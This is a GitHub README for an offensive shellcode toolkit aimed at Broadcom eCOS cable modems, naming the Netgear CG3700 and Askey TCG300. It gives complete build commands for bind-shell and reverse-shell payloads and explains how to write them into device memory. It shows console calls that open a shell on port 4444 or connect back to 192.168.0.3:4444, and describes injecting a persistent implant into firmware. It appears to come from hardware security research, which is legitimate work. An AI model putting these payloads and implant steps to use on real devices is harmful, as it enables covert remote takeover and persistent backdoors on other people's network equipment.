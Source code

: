 # eCOS Shellcodes

Shellcode generation for eCOS platform. Right now mostly focused on Broadcom eCOS platform (Broadcom Foundation Classes).

The following shellcodes are implemented:

- **sample** - launch a thread printing a character string on console every 5 seconds
- **bindshell** - a bind shell function (blocking)
- **bindshell\_thread** - a bind shell function launched within a dedicated thread
- **reverseshell** - a reverse shell function (blocking)
- **reverseshell\_thread** - a reverse shell function launched within a dedicated thread

## Toolchain Install

You need the mipsisa32-elf toolchain to generate shellcode for Broadcom eCOS platform. You can run `install.sh` to download it into the repo.


## Shellcode Generation

First, you need to extract all function offsets from your target's firmware and place them in the `payload.ld` file. Right now, two targets are defined:

- **CG3700** - Netgear CG3700
- **TCG300** - Askey TCG300/Siligence TCG300

Once done, just edit the PLATFORM parameter in `Makefile` so that the linker will take offsets from your file.

When done, you can generate shellcode with make commands:

```
make clean && make
rm -f *.elf *.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc sample.c -o sample.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata sample.elf sample.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc reverseshell.c -o reverseshell.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata reverseshell.elf reverseshell.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc reverseshell_thread.c -o reverseshell_thread.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata reverseshell_thread.elf reverseshell_thread.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc bindshell.c -o bindshell.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata bindshell.elf bindshell.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc bindshell_thread.c -o bindshell_thread.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata bindshell_thread.elf bindshell_thread.bin
```

## Shellcode Write

The Broadcom eCOS platform expose `write_memory` and `read_memory` CLI functions that we can call to write our shellcode in RAM.

You can use the `upload.py` python script to write a given shellcode into a device memory over a serial connection.

```
./upload.py reverseshell.bin 0x80810000
[+] Writing payload to memory.
[+] Reading payload from memory.
[+] Integrity check passed.
```

Note that these functions can be called from different context (SSH session, telnet session, reverse shell session, ...). The script only supports serial at the moment, pull requests are welcomed though :)

## Shellcode Call

Once written into memory, we can call our shell code by relying on the `call` CLI function. The next subsections explain how to call each shellcode.

### bind shell

The shellcode takes two parameters:

- ip address to bind to
- tcp port to bind to

Parameters must be transmitted in hexadecimal notation.

```
CM> call func -r -a 0x80810000 0x00000000 0x115c
Calling function 0x80810000(0x00000000, 0x115c)
[+] Launching bind shell on 0.0.0.0:4444
```

### reverse shell

The shellcode takes two parameters:

- ip address to connect to
- tcp port to connect to

Parameters must be transmitted in hexadecimal notation.

```
CM> call func -r -a 0x80810000 0xc0a80003 0x115c
Calling function 0x80810000(0xc0a80003, 0x115c)
[+] Launching reverse shell to 192.168.0.3:4444
```

## eCOS Threading

Reverse and bind shells supports threading but it's not that interesting on Broadcom platform because the console I/O cannot be shared by multiple threads (no virtual tty like Linux).

This means that once you launch the (reverse/bind) shell thread, you lose access to the console if you were already connected to it via UART/Telnet/SSH. Note that once you quit the thread (e.g. by closing the reverse shell connection), the code takes care of re-assigning console I/O to the legit descriptor.

Threading is still super relevant for specific functions that don't need console I/O and that you can leave running in the background (network scanning, implant writing to backdoor bootloader/firmware, gdb server, ...).

## Firmware Implants (Persistence)

The `inject.py` script can be used to inject custom shellcode in an unpacked firmware file by overwriting a given section.

```
./inject.py firmware.bin ~/git/ecoshell/bindshell_thread.bin 0x805f4434 0x805f4b28
Available space: 1780 bytes
Overwriting firmware file with shellcode.
```

More details on persistence with firmware implants can be found in [Broadcom eCos | Gaining Persistence with Firmware Implants](https://ecos.wtf/2021/03/15/ecos-persistence-firmware)

## Credits

- Makefile and linker file inspired from [https://github.com/stdw/cm-sdr](https://github.com/stdw/cm-sdr)
- eCOS console command handler inspiration from early work on CableHaunt by [Lyrebirds](https://github.com/Lyrebirds/technicolor-tc7230-exploit/blob/master/reverseshell.c)
